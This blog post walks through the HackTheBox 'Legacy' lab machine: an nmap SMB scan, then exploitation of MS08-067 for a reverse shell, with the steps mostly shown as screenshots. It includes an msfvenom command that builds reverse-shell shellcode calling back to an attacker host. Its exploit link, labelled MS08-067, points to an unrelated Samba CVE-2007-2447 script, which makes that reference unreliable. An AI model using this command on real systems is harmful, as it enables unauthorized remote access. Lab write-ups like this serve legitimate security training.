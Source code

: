 ```yaml
---
layout: post
title:  "HackTheBox Legacy Walkthrough"
date:   2020-01-07 00:00:00 -0500
categories: Tutorials
---
```


```
					 _                                 
					| |                                
					| |     ___  __ _  __ _  ___ _   _ 
					| |    / _ \/ _` |/ _` |/ __| | | |
					| |___|  __/ (_| | (_| | (__| |_| |
					\_____/\___|\__, |\__,_|\___|\__, |
            					 __/ |            __/ |
            					|___/            |___/ 
```


A good beginner box with multiple vulnerabilties.
<br/>

There are two SMB vulnerabilties that I found:
* smb-vuln-ms08-067 - This is Vuln that we will be going over in this walkthrough.
* smb-vuln-ms17-010 - One of my top favorite exploits, WannaCry/EternalBlue.

<br/>

**1)** Scanned and saw that port 445 was open, also saw that the OS was running Windows XP.
![NMAP]({{ "/files/HTBLegacy_00.png" | absolute_url }})<br/> 
<br/>

**2)** Ran nmap SMB scripts to find vulnerabilities. Found *smb-vuln-ms08-067* and *smb-vuln-ms17-010*.
![vulns]({{ "/files/HTBLegacy_01.png" | absolute_url }})<br/>
<br/>

**3)** Found this exploit for *smb-vuln-ms08-67* on GitHub, be sure to install the required impacket dependencies: <https://raw.githubusercontent.com/amriunix/CVE-2007-2447/master/usermap_script.py>
<br/>
<br/>
All that is needed to be replaced is the shellcode with your own.
```msfvenom -p windows/shell_reverse_tcp LHOST=1.3.3.7 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows```
![shellcode]({{ "/files/HTBLegacy_02.png" | absolute_url }})<br/>
<br/>

**4)** Ran the ms08_067_2018.py exploit and was able to get a root reverse shell. Found the user.txt and root.txt. <br/>
![reverseShell]({{ "/files/HTBLegacy_03.png" | absolute_url }})<br/>
![user]({{ "/files/HTBLegacy_04.png" | absolute_url }})<br/>
![root]({{ "/files/HTBLegacy_05.png" | absolute_url }})<br/>
